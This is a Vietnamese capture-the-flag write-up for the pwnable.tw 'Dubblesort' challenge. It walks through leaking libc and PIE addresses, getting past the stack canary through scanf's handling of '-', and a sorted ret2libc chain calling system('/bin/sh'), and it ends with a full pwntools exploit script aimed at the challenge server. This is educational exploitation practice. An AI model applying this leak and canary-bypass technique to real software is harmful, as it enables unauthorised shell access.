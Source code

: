 # pwnable.tw - Dubblesort

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
dubblesort_patched: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.24, BuildID[sha1]=12a217baf7cbdf2bb5c344ff14adcf7703672fb1, stripped

```
Đây là file 32-bit bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
RUNPATH:  b'.'
FORTIFY:  Enabled
```

Tiếp đến đưa file vào ida-32bit, ở đây mình đã sửa lại tên một số hàm và biến để dễ quan sát luồng thực thi

![gdb.png](images/gdb.png)

# 2. Ý tưởng

![test1.png](images/test1.png)

![test2.png](images/test2.png)

Ở đây mình đã test thử và thấy có gì đó khi in `name`, các số dec sau khi `Processing......` là giá trị của 1 địa chỉ 

libc cũng như địa chỉ hàm khi `PIE enable`

Thêm việc nữa là *** stack smashing detected *** xuất hiện. Ở đây có vẻ mình đã ghi đè vào `canary` 

-> `rop_chain`

# 3. Khai thác

```
payload = b"a"*8
p.sendlineafter(b"What your name :", payload)
```

Ok đầu tiên cứ đưa input vào name xem nó đã in ra những gì

![gdb1.png](images/gdb1.png)

Oke vậy ở đây mình nhận ra có thể leak cả địa chỉ libc lẫn địa chỉ hàm

```
payload = b"a"*28
p.sendlineafter(b"What your name :", payload)
p.recvuntil(payload)

libc_base = int.from_bytes(p.recv(4),"little") - 1769482
system = libc_base + 0x3a940
binsh = libc_base + 0x158e8b

leak = int.from_bytes(p.recv(4),"little") + 1322
main = leak + 360


print("[+]Libc_base:    ", hex(libc_base))
print("[+]System:         ", hex(system))
print("[+]Bin_sh:         ", hex(binsh))
```

![test3.png](images/test3.png)

Kế đến mình đã test khi bị *** stack smashing detected *** ta có thể thấy rằng ở vị trí thứ 25 dùng để so sánh với `canary` mới

Và nhìn vào stack khi đó sẽ thấy ta có thể ghi rop_chain với `system("/bin/sh")` tại ret_add với 35 lần ghi

```
p.sendlineafter(b"How many numbers do you what to sort :", b"35")

def send_value(value):
    p.sendlineafter(b" number :", str(value))

for i in range(24):
    send_value(str(i))

p.sendlineafter(b" number :", b"-")
for i in range(8):
    p.sendlineafter(b" number :", str(system))
p.sendlineafter(b" number :", str(system+1))
p.sendlineafter(b" number :", str(binsh))
```

Giải thích đoạn trên: Do ở hàm `process` đã sắp xếp từ nhỏ đến lớn nên ta cũng phải sắp xếp lại những thứ ta ghi từ nhỏ đến lớn. Rất may ở đây địa chỉ chuỗi `/bin/sh` lớn hơn địa chỉ hàm `system`

+ Loop 24 lần với số nhỏ để bỏ qua 24 vùng nhớ đầu

+ kế đến thay vì send 1 số number mình đã send ký tự để nó bỏ qua và giữ nguyên giá trị tại vị trí 25 là vị trí để so sánh với `canary` (điểu này mình đã phát hiên ra khi test lúc đầu)

+ loop thêm 8 lần để tiến đến `ret_add` và bỏ qua việc hàm `process` sắp xếp lại thứ tự của mình

+ Kế đến là `fake_ret_addr` và tham số `/bin/sh`

# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("dubblesort_patched")
libc = elf.libc

local = False 
if local:
    p = process("./dubblesort_patched")
    gdb.attach(p,'''
    b*main+111
    c
    b*main+310''')
else:
    p = remote('chall.pwnable.tw', 10101)

elf = context.binary = ELF('./dubblesort_patched', checksec=False)

payload = b"a"*28
p.sendlineafter(b"What your name :", payload)
p.recvuntil(payload)

libc_base = int.from_bytes(p.recv(4),"little") - 1769482
system = libc_base + 0x3a940
binsh = libc_base + 0x158e8b

leak = int.from_bytes(p.recv(4),"little") + 1322
main = leak + 360


print("[+]Libc_base:    ", hex(libc_base))
print("[+]System:         ", hex(system))
print("[+]Bin_sh:         ", hex(binsh))

p.sendlineafter(b"How many numbers do you what to sort :", b"35")

def send_value(value):
    p.sendlineafter(b" number :", str(value))

for i in range(24):
    send_value(str(i))

p.sendlineafter(b" number :", b"-")
for i in range(8):
    p.sendlineafter(b" number :", str(system))
p.sendlineafter(b" number :", str(system+1))
p.sendlineafter(b" number :", str(binsh))

p.interactive()
```


